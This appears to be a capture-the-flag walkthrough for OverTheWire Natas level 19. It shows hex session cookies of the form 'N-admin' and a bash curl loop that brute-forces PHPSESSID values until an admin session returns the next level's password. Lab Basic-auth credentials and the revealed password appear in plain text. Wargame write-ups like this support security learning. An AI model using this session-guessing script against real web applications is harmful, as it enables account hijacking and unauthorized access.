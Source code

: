 ```
~# xxd -ps -r phpsessionid.hex  phpsessionid.txt
~# cat phpsessionid.txt
1-admin
3-admin
4-admin
...
637-admin
638-admin
639-admin
640-admin
```

So we have a random number between 1 and 640 again, only with -admin added.  
Lets first just try admin (61646d696e) if that doenst work, lets brute force it.

nope

```bash
SessionCookie="PHPSESSID=61646d696e"
curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')

echo $curl_output 
 </html> logged in as a regular user. Login as an admin to retrieve credentials for natas20.</div>al...</head>thewire.org/js/wechall.js"></script>
```

Script

```bash
MaxCookieID=640
CurrentID=0
while [ $CurrentID -ne $MaxCookieID ]
do
    CurrentID=$(( $CurrentID + 1 ))
    CurrentIDHEX=$(echo -n "$CurrentID-admin" | xxd -p)
    SessionCookie="PHPSESSID=$CurrentIDHEX"
    curl_output=$(curl -s $'http://natas19.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --cookie "$SessionCookie" --data 'username=admin&password=password')
    if echo $curl_output | grep -q "regular user"; then
        echo "[-] $CurrentID out of $MaxCookieID is not a admin session."
    else
        echo "[+] $CurrentID out of $MaxCookieID is a admin session."
        echo "$(echo $curl_output | grep Password)"
        break
    fi
done
```

Output

```
[-] 1 out of 640 is not a admin session.
[-] 2 out of 640 is not a admin session.
[-] 3 out of 640 is not a admin session.
[-] 4 out of 640 is not a admin session.
...
[-] 278 out of 640 is not a admin session.
[-] 279 out of 640 is not a admin session.
[-] 280 out of 640 is not a admin session.
[+] 281 out of 640 is a admin session.
</html> an admin. The credentials for the next level are:<br><pre>Username: natas20 Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>script>
```
